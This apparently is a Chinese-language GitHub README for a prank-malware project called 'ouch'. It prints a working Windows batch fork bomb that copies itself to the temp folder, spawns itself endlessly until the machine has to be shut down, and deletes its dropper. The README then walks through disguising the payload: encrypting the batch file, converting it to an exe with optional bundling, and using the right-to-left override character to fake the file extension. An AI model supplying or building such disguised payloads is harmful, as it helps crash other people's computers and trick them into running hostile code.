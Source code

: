 # ouch
一个令电脑内存堆积 导致强制关机的bat
## 我们需要一个ouch.bat
/////手动编辑/////
```bash
(echo :ouch && echo start ouch.bat && echo goto ouch && echo color 2 && echo echo ################## I am YJ, thank u for open this bat,Yours computer will be shutdown ##################) > %temp%/ouch.bat
cd %temp% && ouch.bat
del %0`
```
记事本添加以上代码后，保存修改后缀为bat。'如果你想测试的话可以打开hhh
### CmdEncryption 加密bat文件
不用介绍了 感谢AM电脑吧:年老痴呆
#### 之后导入Bat_To_Exe_Converter将bat转换成exe
ps:language可以切换为中文

![battoexe](https://s1.ax1x.com/2020/04/28/JIHGGV.png)
此软件有捆绑功能与填写软件功能 我这里不需要我就不弄了 这是我的配置 自行DIY

##### RLO字符运用
![RLO](https://s1.ax1x.com/2020/04/28/JIbNfP.gif)
看GIF把 不解释了都 
ps:想看后缀请到文件夹设置里设置显示后缀！
附上链接
[点我](https://jingyan.baidu.com/article/ab69b2707a7deb2ca6189f6f.html "点我看看教程")
~~*这个教程真的好小白算是 一个demo了吧*~~
THANK YOU!!!
### END
